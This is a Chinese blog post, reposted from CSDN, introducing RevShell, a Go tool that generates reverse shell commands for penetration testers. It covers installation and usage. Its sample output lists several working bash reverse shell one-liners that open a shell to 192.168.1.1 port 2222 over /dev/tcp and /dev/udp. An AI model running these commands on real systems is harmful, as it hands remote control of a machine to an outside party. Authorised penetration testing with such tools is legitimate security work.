 # 020-RevShell：一款好用的生成反弹Shell命令的工具




## RevShell



## 工具简介
RevShell是一个基于Go语言的反弹Shell命令生成工具，旨在帮助安全研究人员和渗透测试人员在需要与目标主机建立反向连接时快速生成相应的Shell代码。

目前支持的类型:
bash、sh、nc、ruby、php、python、rcat、perl、socat、node、telnet、zsh、lua、golang、vlang、awk、crystal。

除了支持多种Shell类型外，revshell还可以运行在多个操作系统平台上，包括Mac、Linux和Windows。这使得用户可以在不同的环境中使用revshell来生成适用于目标主机操作系统的反弹Shell代码，提高了工具的灵活性和适用性。

项目地址：https://github.com/BetterDefender/revshell

## 安装方式

- 自行编译运行

```shell
$ go build revshell.go
```

- 直接下载项目Releases中编译好的工具

https://github.com/BetterDefender/revshell/releases

![image-20230814142045336](/resource/RevShell.assets/image-20230814142045336.png)

## 使用方法

```shell
$ ./revshell [IPADDR] [PORT] [LANGUAGE]
```

## 使用示例

```shell
$ ./revshell 192.168.1.1 2222 bash
```

### MacOS

```shell
$ ./revshell 192.168.1.1 2222 bash
 _____               _____ _          _ _    _____  
|  __ \             / ____| |        | | |  / ____|
| |__) |_____   __ | (___ | |__   ___| | | | |  __  ___ _ __ 
|  _  // _ \ \ / /  \___ \| &#39;_ \ / _ \ | | | | |_ |/ _ \ &#39;_ \
| | \ \  __/\ V /   ____) | | | |  __/ | | | |__| |  __/ | | |
|_|  \_\___| \_/   |_____/|_| |_|\___|_|_|  \_____|\___|_| |_|

                       | 💻 Author: Gh0stX | 🍎 Version: 1.0 |

------------------------------------------
Bash -i:
bash -i &gt;&amp; /dev/tcp/192.168.1.1/2222 0&gt;&amp;1
/bin/bash -i &gt;&amp; /dev/tcp/192.168.1.1/2222 0&gt;&amp;1
------------------------------------------
Bash 196:
0&lt;&amp;196;exec 196&lt;&gt;/dev/tcp/192.168.1.1/2222; bash &lt;&amp;196 &gt;&amp;196 2&gt;&amp;196
0&lt;&amp;196;exec 196&lt;&gt;/dev/tcp/192.168.1.1/2222; /bin/bash &lt;&amp;196 &gt;&amp;196 2&gt;&amp;196
------------------------------------------
Bash read line:
exec 5&lt;&gt;/dev/tcp/192.168.1.1/2222;cat &lt;&amp;5 | while read line; do $line 2&gt;&amp;5 &gt;&amp;5; done
------------------------------------------
Bash 5:
bash -i 5&lt;&gt; /dev/tcp/192.168.1.1/2222 0&lt;&amp;5 1&gt;&amp;5 2&gt;&amp;5
/bin/bash -i 5&lt;&gt; /dev/tcp/192.168.1.1/2222 0&lt;&amp;5 1&gt;&amp;5 2&gt;&amp;5
------------------------------------------
Bash UDP:
bash -i &gt;&amp; /dev/udp/192.168.1.1/2222 0&gt;&amp;1
/bin/bash -i &gt;&amp; /dev/udp/192.168.1.1/2222 0&gt;&amp;1
```

![image](/resource/RevShell.assets/259199615-c5c4ea25-9191-4b5c-ab20-b3a86a604de3.png)

### Windows

![image](/resource/RevShell.assets/259209244-59f7ef07-01da-4271-87c7-fa286c143c94.png)

### Linux

![image](/resource/RevShell.assets/259210130-e29555ee-16eb-4a03-96dc-999341d174f3.png)

## 总结

使用RevShell，您可以轻松生成所需的反弹Shell代码，从而在渗透测试、漏洞利用或安全评估等任务中更加高效地与目标主机进行交互和控制。

————————————————

版权声明：本文为CSDN博主「Gh0stX」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/weixin_42575797/article/details/132188010


---

> 作者: Gh0stX  
> URL: http://localhost:1313/posts/revshell/  

